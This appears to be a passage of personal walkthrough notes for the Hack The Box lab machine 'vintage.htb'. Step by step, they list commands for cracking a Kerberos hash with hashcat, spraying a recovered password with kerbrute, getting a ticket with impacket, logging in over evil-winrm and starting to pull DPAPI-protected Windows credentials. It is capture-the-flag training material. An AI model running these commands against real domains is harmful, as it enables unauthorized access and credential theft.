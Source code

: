 **U7.**

INFO: CRACK HASH of svc_sql -\> SVC_SQL password: Zer0the0ne

**RUN: hashcat -a 0 -m 18200 hash.txt /home/kali/Desktop/rockyou.txt
--show**

**U8.**

INFO: **PASSWORD SPARYING**. Blast User with KERBRUTE

Kerbrute is a tool specifically designed for **attacking and enumerating
information** related to the **Kerberos authentication protocol**.

**RUN: kerbrute \--dc vintage.htb -d vintage.htb -v passwordspray
usernames.txt Zer0the0ne**

**U9.**

INFO: See User: C.Neri relations in Bloodhound overview

**U10.**

INFO: Requests TGT for User: C.Neri. FILE c.neri.ccache has been created

**RUN: impacket-getTGT vintage.htb/c.neri:Zer0the0ne -dc-ip
vintage.htb**

**RUN: export KRB5CCNAME=c.neri.ccache**

**-Get user.txt\-\--**

**U11.**

INFO: Login remotely with WinRM. IF ERROR OCCURS, check the resolv.conf
file!!

**RUN: evil-winrm -i dc01.vintage.htb -r vintage.htb**

**///-ROOT-//////////////////////////////////////////////////////////////////////////////////////**

**R1.**

INFO:

**RUN: whoami /user**

**R2.**

INFO:

**RUN: whoami /priv**

**DEPAPI is here in documentary**

**R3.**

INFO: Use DPAPI to obtain WINDOWS IDENTITY CREDENTIALS

**RUN: cd C:\\Users\\C.Neri\\AppData\\Roaming\\Microsoft\\Credentials**

**RUN: dir -h (lists files and folders in WINDOWS)**

**RUN: download C4BB96844A5C9DD45D5B6A9859252BA6**
